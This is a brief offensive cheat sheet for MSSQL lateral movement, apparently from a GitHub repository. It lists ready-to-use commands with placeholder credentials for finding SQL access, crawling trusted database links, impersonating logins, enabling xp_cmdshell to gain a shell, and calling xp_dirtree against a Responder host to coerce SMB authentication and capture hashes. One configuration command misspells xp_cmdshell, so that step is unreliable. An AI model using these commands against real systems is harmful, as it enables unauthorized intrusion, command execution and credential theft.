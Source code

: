 # MSSQL Lateral Movement

## Tools: CrackMapExec/Netexec , impacket-mssqlclient

 - netexec mssql IP -u USER -p PASSWORD -d DOMAIN (Find mssql access)

 - MATCH p=(u:User)-[:SQLAdmin]->(c:Computer) RETURN p (Users with SQL Admin bloodhound cypher query)

### Trust Link

#### 1) Metasploit

 - use exploit/windows/mssql/mssql_linkcrawler

#### 2) Powershell MSSQL Module

 - Get-SQLServerLinkCrawl -username USERNAME -password PASSWORD -Verbose -Instance SQL_INSTANCE -Query "SQL_QUERY"

#### 3) impacket-mssqlclient

 - impacket-mssqlclient -windows-auth DOMAIN/USER:PASSWORD@IP

### Commands upon login:

 - enum_db

 - enable xp_cmdshell --> xp_cmdshell COMMAND (Gives low access shell)

 - EXEC MASTER.sys.xp_dirtree '\\RESPONDER_IP\test', 1, 1 (Coerce SMB)

 - trustlink --> sp_linkedservers --> use_link (MSSQL Lateral Movement)

 - enum_impersonate --> exec_as_user USER

 - enum_impersonate --> exec_as_login LOGIN

#### 4) MSSQL Client shell

 - EXECUTE sp_configure 'show advanced options',1; RECONFIGURE;

 - EXECUTE sp_configure 'xp_cmdhsell',1; RECONFIGURE;

 - EXEC xp_cmdshell 'COMMAND' (Gains low access shell)

